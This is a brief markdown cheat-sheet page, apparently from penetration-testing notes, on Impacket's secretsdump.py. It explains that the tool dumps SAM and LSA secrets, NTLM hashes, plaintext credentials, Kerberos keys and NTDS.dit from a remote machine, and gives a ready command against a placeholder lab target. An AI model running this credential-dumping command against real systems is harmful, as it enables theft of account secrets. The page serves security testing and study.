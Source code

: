 ```yaml
---
description: Retrieve User Account's Synced Password Hashes
---
```


# Impacket's secretsdump.py

### Introduction

Impacket’s secretsdump.py will perform various techniques to dump secrets from the remote machine without executing any agent. Techniques include reading SAM and LSA secrets from registries, dumping NTLM hashes, plaintext credentials, and kerberos keys, and dumping NTDS.dit.



### Command Reference:

```
Target IP: 10.10.10.1

Domain: test.local

Username: john

Password: password123
```



#### Command:

```bash
python3 secretsdump.py test.local/john:password123@10.10.10.1
```

